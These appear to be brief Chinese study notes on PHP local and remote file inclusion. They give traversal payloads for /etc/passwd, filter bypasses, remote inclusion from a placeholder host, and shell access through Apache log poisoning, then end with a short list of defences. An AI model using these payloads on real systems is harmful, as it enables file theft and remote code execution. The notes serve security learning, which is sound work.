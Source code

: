 # 文件包含漏洞


1. 图片里加入木马代码
2. 包含这个图片地址

代码里面 include 的是一个变量

## 分类

1. 本地文件包含
2. 远程文件包含

**本地文件包含**

利用条件
- 用户对输入可控且无过滤
- 可以利用相对路径或绝对路径读取系统敏感文件

**远程文件包含**

- allow_url_open 开启
- allow_url_include 开启，php 5.2 之后，默认关闭了


## PHP 文件包含函数

```
require() // 出错会退出
include() // 出错只告警，然后继续运行
require_once()
include_once()
```

**URL**

- ?home=
- ?file=
- ?path=
- ?page=


## 利用

- ?page=/etc/passwd
- ?page=../../../../../etc/passwd


**绕过替换**

`str_replace` 替换为空，使用双写绕过


**正则过滤**

```
fnmatch("file*")
```

绕过

- ?page=file:///etc/passwd


**远程包含**

?page=http://x.x.x.x/ee.txt  


## get shell

利用中间件的 log 包含

apache2: /var/log/apache2/access.log

**利用过程**

1. 触发一个log，写入一句话木马，例如 ?page=<?php hphinfo();>，注意 url 编码
2. 利用文件包含漏洞包含这个日志文件


**配合文件上传 get shell**

1. 上传一个包含木马的 png



## 防御

白名单可被包含对文件名
过滤危险字段
设置可包含的目录
关闭危险参数
